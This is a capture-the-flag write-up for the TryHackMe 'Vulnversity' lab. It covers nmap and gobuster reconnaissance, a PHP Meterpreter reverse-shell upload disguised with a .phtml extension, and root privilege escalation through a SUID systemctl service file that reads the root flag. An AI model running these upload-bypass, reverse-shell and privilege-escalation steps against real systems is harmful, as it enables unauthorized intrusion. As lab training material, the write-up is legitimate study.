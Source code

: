 <!-- TOC -->

- [Vulnversity](#vulnversity)
    - [Reconnaissance](#reconnaissance)
    - [Locating directories using GoBuster](#locating-directories-using-gobuster)
    - [Compromise the webserver](#compromise-the-webserver)
    - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

# Vulnversity

[Vulnversity Room](https://tryhackme.com/room/vulnversity)

Learn about active recon, web app attacks and privilege escalation.

| Title | IP Address |
| :---- | :---- |
| VulnUniversity | 1*.**.***.* |

## Reconnaissance

```bash
nmap -sC -sV 1*.**.***.*
```

> ```
> . . .
> 21/tcp   open  ftp         vsftpd 3.0.3
> 22/tcp   open  ssh         OpenSSH 7.2p2 U***** 4u*****2.7 (U***** Linux; protocol 2.0)
> | ssh-hostkey: 
> |   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
> |   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
> |_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
> 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
> 445/tcp  open  netbios-ssn Samba smbd 4.3.11-U***** (workgroup: WORKGROUP)
> 3128/tcp open  http-proxy  Squid http proxy 3.*.**
> |_http-server-header: squid/3.5.12
> |_http-title: ERROR: The requested URL could not be retrieved
> 3***/tcp open  http        Apache httpd 2.4.18 ((U*****))
> |_http-server-header: Apache/2.4.18 (U*****)
> |_http-title: Vuln University
> Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
> . . .
> ```

## Locating directories using GoBuster

```bash
gobuster dir -u http://1*.**.***.*:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100
```

> ```
> /images               (Status: 301) [Size: 318] [--> http://1*.**.***.*:3333/images/]                                 
> /css                  (Status: 301) [Size: 315] [--> http://1*.**.***.*:3333/css/]                                    
> /js                   (Status: 301) [Size: 314] [--> http://1*.**.***.*:3333/js/]                                     
> /fonts                (Status: 301) [Size: 317] [--> http://1*.**.***.*:3333/fonts/]                                  
> /i*******             (Status: 301) [Size: 320] [--> http://1*.**.***.*:3333/i*******/]
> ```

## Compromise the webserver

![Burp](burp.png)

```bash
msfpc php 1*.*.**.** 80
msfconsole -q -r '/home/***/***/php-meterpreter-staged-reverse-tcp-80-php.rc'
mv php-meterpreter-staged-reverse-tcp-80.php php-meterpreter-staged-reverse-tcp-80.phtml
```

RHOST:

```bash
cd /home
cd b***
cat user.txt
```

> `'********************************`

## Privilege Escalation

Using [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

> `-rwsr-xr-x 1 root root 645K Feb 13  2019 /bin/s********`

Using [GTFOBins](https://gtfobins.github.io/):

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
cat /tmp/output
```

> `a*******************************`
